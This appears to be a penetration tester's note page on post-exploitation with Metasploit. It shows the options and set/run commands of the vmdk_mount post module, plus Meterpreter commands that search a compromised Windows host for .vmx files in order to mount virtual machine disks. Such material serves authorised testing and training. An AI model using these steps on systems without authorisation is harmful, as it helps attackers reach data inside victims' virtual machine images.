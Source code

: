 # C2 Frameworks

## 01 - Metasploit

MSF Windows Manage VMDK Mount Drive Post Module

```
msf > use post/windows/manage/vmdk_mount

msf post(windows/manage/vmdk_mount) > options

Module options (post/windows/manage/vmdk_mount):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEL_LCK    false            yes       Delete .vmdk lock file
   DRIVE      Z                yes       Mount point (drive letter)
   READ_MODE  true             yes       Open file in read-only mode
   SESSION                     yes       The session to run this module on
   VMDK_PATH                   yes       Full path to the .vmdk file

msf post(windows/manage/vmdk_mount) > set vmdk_path "C:\\path\\to\\file.vmdk"

msf post(windows/manage/vmdk_mount) > set read_mode <true | false>

msf post(windows/manage/vmdk_mount) > set drive <drive_letter>

msf post(windows/manage/vmdk_mount) > set del_lck <true | false>

msf post(windows/manage/vmdk_mount) > set verbose <true | false>

msf post(windows/manage/vmdk_mount) > set session <session_ID>

msf post(windows/manage/vmdk_mount) > run
```

## 02 - Meterpreter Commands

Find the `.vmx` file and view the contents to to mount the `.vmdk` file. (TODO: check the module `find_vmx`)

```
meterpreter > search -d C:\\Users\\ -f *.vmx

meterpreter > run post/multi/gather/find_vmx
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xG - Forensics/Mounting Virtual Machines/VirtualBox]]

### Shell is coming

- [Shell is coming: Post Exploitation Mounting VMDK Files](https://www.shelliscoming.com/2017/05/post-exploitation-mounting-vmdk-files.html)